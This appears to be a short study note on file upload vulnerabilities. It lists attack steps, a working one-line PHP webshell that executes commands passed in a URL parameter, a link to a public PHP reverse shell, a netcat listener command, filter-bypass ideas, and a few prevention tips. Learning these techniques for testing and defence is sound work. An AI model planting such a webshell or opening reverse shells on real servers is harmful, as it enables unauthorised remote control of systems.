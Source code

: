 # Upload Vulnerabilities

## Attacking

- Overwriting existing files on a server
  - Overwrite the same file name on the src path
- Uploading and Executing Shells on a server
  - Webshells
  ```php
  <?php
    echo system($_GET["cmd"]);
  ?>
  ```
  - Reverse/bind shells
    - https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
    - `nc -lvpn 1234`
- Bypassing Client-Side filtering
- Bypassing various kinds of Server-Side filtering
- Fooling content type validation checks

## Prevention 

- Assign the file with a new name or random or date and time
- Check filename already exists on the server
- File permission to protect existing files from being overwritten
